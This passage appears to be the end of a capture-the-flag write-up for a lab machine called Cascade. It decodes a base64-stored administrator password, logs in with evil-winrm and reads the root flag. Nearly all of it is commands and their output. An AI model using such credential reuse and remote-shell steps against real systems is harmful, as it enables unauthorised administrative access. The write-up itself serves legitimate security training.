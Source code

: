 ```shell
```

```shell
$ echo 'YmFDVDNyMWFOMDBkbGVz' | base64 -d    
baCT3r1aN00dles
```

Enter as `administrator` via `evil-winrm`.

```shell
$ evil-winrm -i 10.10.10.182 -u administrator -p baCT3r1aN00dles
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
cascade\administrator
```

## Post Exploitation

Get the flag.

```shell
*Evil-WinRM* PS C:\Users\Administrator\desktop> type root.txt
8071c9d5398ae77294c2b756de6a1e20
```
